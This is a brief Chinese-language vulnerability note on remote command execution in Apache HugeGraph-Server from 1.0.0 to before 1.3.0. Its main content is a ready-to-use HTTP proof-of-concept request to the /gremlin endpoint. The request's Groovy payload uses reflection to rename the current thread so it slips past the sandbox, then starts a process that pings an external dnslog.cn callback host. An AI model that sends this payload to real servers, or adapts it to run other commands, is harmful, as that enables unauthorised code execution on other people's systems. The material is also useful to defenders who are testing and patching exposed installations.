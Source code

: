 **漏洞介绍**

Apache HugeGraph是美国阿帕奇（Apache）基金会的一个速度快、可扩展性强的图形数据库。

Apache HugeGraph 1.0.0至1.3.0之前版本存在安全漏洞，该漏洞源于存在远程命令执行（RCE）漏洞。

**影响版本**

1.0.0 <= HugeGraph-Server < 1.3.0

**漏洞复现**

 **POC** 

```yaml
POST /gremlin HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Content-Length: 382

{"gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"ping\", \"pkay8w.dnslog.cn\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");startMethod.invoke(processBuilderInstance);", "bindings": {}, "language": "gremlin-groovy", "aliases": {}}
```

